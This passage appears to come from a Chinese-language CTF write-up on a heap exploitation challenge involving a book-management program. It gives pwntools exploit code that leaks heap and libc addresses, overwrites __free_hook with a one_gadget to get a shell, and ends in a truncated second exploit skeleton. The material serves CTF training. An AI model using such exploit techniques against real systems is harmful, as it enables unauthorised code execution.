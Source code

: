 ```python
book_id_1, book_name, book_des, book_author = printbook(1)
book1_addr = u64(book_author[32:32+6].ljust(8,'\x00'))
log.success("book1_address:" + hex(book1_addr))

payload = p64(1) + p64(book1_addr + 0x38) + p64(book1_addr + 0x40) + p64(0xffff)
editbook(book_id_1, payload)
changename("A" * 32)

book_id_1, book_name, book_des, book_author = printbook(1)
book2_name_addr = u64(book_name.ljust(8,"\x00"))
book2_des_addr = u64(book_des.ljust(8,"\x00"))
log.success("book2 name addr:" + hex(book2_name_addr))
log.success("book2 des addr:" + hex(book2_des_addr))
libc_base = book2_des_addr - 0x5b9010
log.success("libc base:" + hex(libc_base))

free_hook = libc_base + libc.symbols["__free_hook"]
one_gadget = libc_base + 0x4f322 # 0x4f2c5 0x10a38c 0x4f322
log.success("free_hook:" + hex(free_hook))
log.success("one_gadget:" + hex(one_gadget))
editbook(1, p64(free_hook) * 2)
editbook(2, p64(one_gadget))

deletebook(2)

io.interactive()
```

#### 简洁方案

在任意读写之后，另一种找到 libc 的方案其实是可以在进行任意读写之前首先造成 libc 地址被写在堆上，之后任意读将其读出来即可。

其中为找到 libc 所在的偏移，可以直接通过 gdb 调试，查看具体 libc 地址在堆上的位置即可，不用进行刻意计算。

exp 如下：

```
#! /usr/bin/env python2
# -*- coding: utf-8 -*-
# vim:fenc=utf-8

import sys
import os
import os.path
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) > 2:
    DEBUG = 0
    HOST = sys.argv[1]
    PORT = int(sys.argv[2])

    p = remote(HOST, PORT)
else:
    DEBUG = 1
    if len(sys.argv) == 2:
        PATH = sys.argv[1]

    p = process(PATH)

def cmd(choice):
    p.recvuntil('> ')
    p.sendline(str(choice))


```
